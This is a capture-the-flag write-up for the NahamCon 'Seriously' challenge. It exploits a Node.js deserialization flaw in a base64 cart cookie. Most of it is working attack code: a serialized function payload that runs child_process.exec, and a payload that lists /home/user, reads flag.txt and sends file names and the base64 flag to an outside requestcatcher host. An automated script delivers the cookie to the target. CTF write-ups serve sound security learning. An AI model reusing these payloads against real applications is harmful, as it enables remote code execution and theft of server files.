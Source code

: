 # NahamCon CTF - Seriously

So we have five "plant stores" and we need to hack it to get the flag.
At first I thought the challenge was somehow related to escalate privileges among them.

There are two hints here:
* The message on the checkout option, saying it was prohibited due to security issues.
* The name of the game itself ("seriously"), as I found later.

I tried all the stores to see if the checkout was open on any of them, but they were not (and stores 3 and 4 were down).

The **/cart** URL used a cookie called also **cart**, to store the items, encoded in base64:
**Base64:**
```
eyJpdGVtcyI6eyIwIjp7Im5hbWUiOiJIYXdvcnRoaW9wc2lzIGF0dGVudWF0YSIsInByaWNlIjoxOS45OSwiY291bnQiOjF9LCIyIjp7Im5hbWUiOiJEcmFjYWVuYSB0cmlmYXNjaWF0YSIsInByaWNlIjoxNC45OSwiY291bnQiOjF9fX0K`
```
**Decoded:** 
```
{"items":{"0":{"name":"Haworthiopsis attenuata","price":19.99,"count":1},"2":{"name":"Dracaena trifasciata","price":14.99,"count":1}}}
````
OK, using a 404 error, we see it's a node application, so I found a Javascript deserialization vulnerability.

### First Try: Shell

Using a sample payload online, I tried to call OS commands.
The snippet bellow is the same structure of the cart, but I changed the name to an evil function.

```
evil = {
  items: {
    '0': { name: 'Haworthiopsis attenuata', price: 19.99, count: 1 },
    '2': { name: 'Dracaena trifasciata', price: 14.99, count: 1 },
    '3': { name: function(){
			require('child_process').exec('ls / >> nep10.txt', function(error, stdout, stderr) { return 'Neptunian'; });
		}, 
    	price: 14.99, count: 1,  },
  }
}**()**
```

And the plan is to serialize the evil object to send to the server.

Something about the **()** above: if you put the parentheses in this constructor, it will run the function, and the serialized version will get only the result.
I had to put the **()** it after serializing for it to run only after deserialization.
Automated the replace to test faster.

And testing:
```
let buff = new Buffer.from(serialize.serialize(evil));

console.log('Evil Serialized:');
// buff2 = buff.toString('ascii');

// Had to replace here to be automatic.
// If I put the "()" and the end of the function, it will run and serialize the result!!
// But if I put only in the serialized version, it will run only in the server, just after deserializing!
// This way, I can work with a complete code, test the payload locally (below) and send it ready to the server.
buff2 = buff.toString('ascii').replace('}","price', '}()","price');
console.log(buff2 + '\n\n');

console.log('Evil Base64');
let base64data = Buffer.from(buff2).toString('base64');
console.log(base64data + '\n\n');

console.log('Evil URL Encoded:');
let payload = urlencode(base64data);
console.log(payload + '\n\n');
```

Now I had a payload.
It worked locally, but I couldnt make the exec command work (tried with curl instead of **ls**).

### The Real Deal: Owning with Javascript

I dont really need a shell when I can run Javascript code on the server.
So lets change the Evil object.

The plan is to send result of the commands to **requestcatcher**.
The error hints that the application is in the **/home/user**, so the plan is to list the files and see if the flag is there.

```
// Kept the basic structure of the cart
// First: listed files on /home/user dir
// After: get flag in base64 format to send (owned!)
evil2 = {
  items: {
    '0': { name: 'Haworthiopsis attenuata', price: 19.99, count: 1 },
    '2': { name: 'Dracaena trifasciata', price: 14.99, count: 1 },
    '3': { name: function(){

    		mysite = 'https://neptunian147.requestcatcher.com';

    		require('request')(mysite - '/working', function (error, response, body) { console.log(body); });

    		var fs = require('fs');
			const path = require('path');
			//joining path of directory 
			// require('path').dirname(require.main.filename)''; //__dirname
			const directoryPath =  '/home/user';
			//passsing directoryPath and callback function
			fs.readdir(directoryPath, function (err, files) {
			    //handling error
			    if (err) {
			        return console.log('Unable to scan directory: ' + err);
			        require('request')(mysite + '/shitt-happens', function (error, response, body) { console.log(body); });
			    } 

			    //listing all files using forEach
			    files.forEach(function (file) {
			        // Do whatever you want to do with the file
			        console.log(file); 

			        require('request')(mysite + '/store2?file=' + file, function (error, response, body) { console.log(body); });
			    });
			});},price: 14.99, count: 1,  },
  }
};
```

And after that:
![Request Catcher - Round 1](https://github.com/Neptunians/nahamcon-ctf/blob/master/seriously/request_catcher_screenshot_1.png)

So, let's include a block to get the flag content and send it, using base64 to avoid any problems:

```
var fs = require('fs');
fs.readFile('/home/user/flag.txt', function(err, data) {
	let base64flag = Buffer.from(data).toString('base64');

	require('request')(mysite + '/working?flag=' + base64flag, function (error, response, body) { console.log(body); });
});
```

And lets call the target which, at this point, is also automated:

```
var request = require('request');

var headers = {
    'Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Referer': 'http://two.jh2i.com:50007/item/Dracaena%20trifasciata',
    'Accept-Language': 'en-US,en;q=0.9,pt-BR;q=0.8,pt;q=0.7,es;q=0.6,fr;q=0.5',
    'Cookie': 'cart=' + payload
    //'Cookie': 'cart=eyJyY2UiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24oKXtyZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlYygnY3VybCBodHRwczovL25lcHR1bmlhbi5yZXF1ZXN0Y2F0Y2hlci5jb20vdGVzdCcsIGZ1bmN0aW9uKGVycm9yLCBzdGRvdXQsIHN0ZGVycikgeyBjb25zb2xlLmxvZyhzdGRvdXQpIH0pOyB9In0%3D'
};

var options = {
    url: 'http://two.jh2i.com:50007/cart',
    headers: headers
};

function callback(error, response, body) {
    if (!error && response.statusCode == 200) {
        console.log(body);
        require('fs').writeFile('out.html', body,
        		function (err) {

        		}
        	);
    }
}

// Just call it and go to request catcher to see the results!
request(options, callback);
```